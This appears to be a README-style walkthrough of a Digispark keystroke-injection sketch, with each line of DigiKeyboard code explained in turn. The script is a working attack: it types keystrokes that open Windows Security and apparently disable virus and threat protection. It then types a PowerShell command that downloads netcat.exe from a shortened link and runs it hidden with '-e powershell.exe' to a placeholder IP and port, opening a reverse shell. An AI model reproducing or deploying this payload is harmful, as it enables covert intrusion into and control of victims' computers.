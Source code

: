 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">#include "DigiKeyboard.h"</code>

<em>```This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.```<em>

<code color="#00979C">void setup(){</code>
<i>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</i>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<em><p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p><em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>Another delay of 1000 milliseconds is introduced.</p>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
<p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>

<code color="#00979C">DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function simulates pressing the Enter key.</p>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
<p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
<p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Yet another Enter key press is simulated.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>Another delay of 700 milliseconds is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<p>The sendKeyStroke() function simulates pressing the Space key.</p>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
<p>A delay of 2000 milliseconds (2 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>A delay of 1000 milliseconds (1 second) is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>

<code color="#00979C">DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
<p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code color="#00979C">void loop(){}</code>
<p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




